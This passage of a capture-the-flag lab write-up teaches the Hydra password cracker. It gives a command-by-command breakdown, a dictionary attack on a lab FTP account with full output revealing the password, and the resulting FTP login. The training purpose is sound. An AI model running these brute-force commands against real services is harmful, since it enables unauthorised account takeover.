 **Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub [here](https://github.com/vanhauser-thc/thc-hydra).

The syntax for the command we're going to use to find the passwords is this:

~~~
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
~~~

Let's break it down:

SECTION | FUNCTION
---|---
`hydra` | Runs the hydra tool
`-t 4` | Number of parallel connections per target
`-l [user]` | Points to the user who's account you're trying to compromise
`-P [path to dictionary]` | Points to the file containing the list of possible passwords
`-vV` | Sets verbose mode to very verbose, shows the login+pass combination for each attempt
`[machine IP]` | The IP address of the target machine
`ftp / protocol` | Sets the protocol

Let's crack some passwords!

## #10.1 - What is the password for the user "mike"?

Let's start a brute force attack against `mike` with hydra:

~~~
$ hydra -l mike -P /data/src/wordlists/rockyou.txt -t 4 ftp://10.10.168.170
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-17 08:45:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ftp://10.10.168.170:21/
[21][ftp] host: 10.10.168.170   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-17 08:45:44
~~~

Mike's FTP password is `password`

## #10.2 - Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted

Now, let's connect with `mike:password`.

~~~
$ ftp 10.10.168.170
Connected to 10.10.168.170 (10.10.168.170).
220 Welcome to the administrator FTP service.
Name (10.10.168.170:unknown): mike
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
227 Entering Passive Mode (10,10,168,170,236,222).
150 Here comes the directory listing.
drwxrwxrwx    5 1002     1006         4096 Apr 24 11:20 .
drwxr-xr-x    5 0        0            4096 Apr 24 11:20 ..
~~~